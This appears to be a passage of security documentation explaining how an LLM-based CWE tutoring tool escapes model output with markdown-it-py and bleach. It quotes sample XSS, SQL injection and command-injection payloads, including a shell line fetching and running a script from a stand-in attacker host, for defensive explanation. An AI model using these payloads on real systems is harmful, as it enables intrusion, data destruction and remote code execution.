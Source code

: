 ```
- `sanitize_markdown()` is **complementary**, not redundant:
  - Model Armor: Stops prompt injection, jailbreaks, offensive content
  - Markdown sanitizer: Stops XSS, HTML injection in formatted responses
- Both layers are necessary for defense-in-depth

### LLM May Return Any Language in Code Blocks (Critical Security Note)

**Reality Check:** The LLM explaining CWE vulnerabilities will return code examples in **any language**:
- **HTML/JavaScript:** `<script>alert('XSS')</script>`, `<img onerror=alert(1)>`
- **SQL:** `'; DROP TABLE users; --`
- **Shell:** `$(curl evil.com/shell.sh | bash)`
- **CSS:** `<style>body { display: none; }</style>`
- **XML/SVG:** `<svg onload=alert(1)>`

**How This Solution Handles It (Safe by Design):**

1. **markdown-it-py with `html=False`:**
   - All inline HTML in markdown is **rendered as escaped text**, not as HTML
   - Example: LLM returns `` `<script>alert(1)</script>` `` → markdown-it converts to `<code>&lt;script&gt;alert(1)&lt;/script&gt;</code>`
   - The markdown parser **never** interprets HTML tags as actual HTML

2. **Code blocks are pre-escaped by markdown-it:**
   - Triple backticks: ` ```html\n<script>...</script>\n``` ` → `<pre><code>&lt;script&gt;...&lt;/script&gt;</code></pre>`
   - The markdown renderer escapes content **before** it reaches bleach
   - Bleach sees already-safe HTML entities, not raw tags

3. **Bleach sanitization is defense-in-depth:**
   - Even if markdown-it somehow failed to escape, bleach would strip/escape disallowed tags
   - Two-layer protection: markdown-it escapes → bleach validates

**Why This Is Safe for CWE Education:**

```python
# LLM returns this markdown:
"""
CWE-79 (XSS) vulnerable code:
```html
<input type="text" value="<?php echo $_GET['name']; ?>">
<script>alert(document.cookie)</script>
```
"""

# After sanitize_markdown():
"""
<p>CWE-79 (XSS) vulnerable code:</p>
<pre><code class="language-html">
&lt;input type="text" value="&lt;?php echo $_GET['name']; ?&gt;"&gt;
&lt;script&gt;alert(document.cookie)&lt;/script&gt;
</code></pre>
"""
